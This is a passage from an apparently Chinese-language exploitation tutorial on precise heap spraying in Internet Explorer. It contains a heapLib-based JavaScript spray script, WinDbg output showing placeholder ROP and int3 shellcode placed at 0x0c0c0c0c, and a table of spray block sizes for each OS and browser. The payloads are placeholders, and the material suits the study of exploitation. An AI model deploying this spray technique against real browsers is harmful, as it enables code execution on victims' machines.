 ```
0396a00c  74 61 67 73 92 39 90 17-92 39 90 17 92 39 90 17  tags.9...9...9..
...
...
```

前面的是脚本在内存中的映射，看后面实际分配的内存，发现此时内存仍然是对齐的，按照0x1000对齐，计算得到偏移为0x5fe。<br>

精准堆喷脚本:

```
&lt;html&gt;
&lt;script language='javascript'&gt;
var heap_obj = new heapLib.ie(0x10000);
var code = unescape("%ucccc%ucccc"); 
var rop = unescape("%u4141%u4141%u4242%u4242%u4343%u4343%u4444%u4444");
var offset_length = 0x5fe;
for (var i=0; i &lt; 0x800; i++) `{`
    var randomnumber1=Math.floor(Math.random()*90)+10;
    var randomnumber2=Math.floor(Math.random()*90)+10;
    var randomnumber3=Math.floor(Math.random()*90)+10;
    var randomnumber4=Math.floor(Math.random()*90)+10;
    var BUNSTstr = "%u" + randomnumber1.toString() + randomnumber2.toString()
    BUNSTstr += "%u" + randomnumber3.toString() + randomnumber4.toString()
    var BUNST = unescape(BUNSTstr);
    while (BUNST.length &lt; 0x1000) BUNST+= BUNST;
    junk_offset = BUNST.substring(0, offset_length);
    var single_sprayblock = junk_offset + rop + code + BUNST.substring(0, 0x800 - code.length - junk_offset.length - rop.length);
    while (single_sprayblock.length &lt; 0x20000) single_sprayblock += single_sprayblock;
    sprayblock = single_sprayblock.substring(0, (0x40000-6)/2);
    heap_obj.alloc(sprayblock);
`}`
document.write("Spray done");
&lt;/script&gt;
&lt;/html&gt;
```

结果:



```
0:022&gt; dd 0c0c0c0c
0c0c0c0c  41414141 42424242 43434343 44444444
0c0c0c1c  cccccccc 57376654 57376654 57376654
```

另外前人总结了不同浏览器下堆喷射的尺寸:



```
OS &amp; Browser        Block syntax
XP SP3 – IE7        block = shellcode.substring(2,0×10000-0×21);
XP SP3 – IE8        block = shellcode.substring(2, 0×40000-0×21);
Vista SP2 – IE7     block = shellcode.substring(0, (0×40000-6)/2);
Vista SP2 – IE8     block = shellcode.substring(0, (0×40000-6)/2);
Win7 – IE8          block = shellcode.substring(0, (0×80000-6)/2);
```
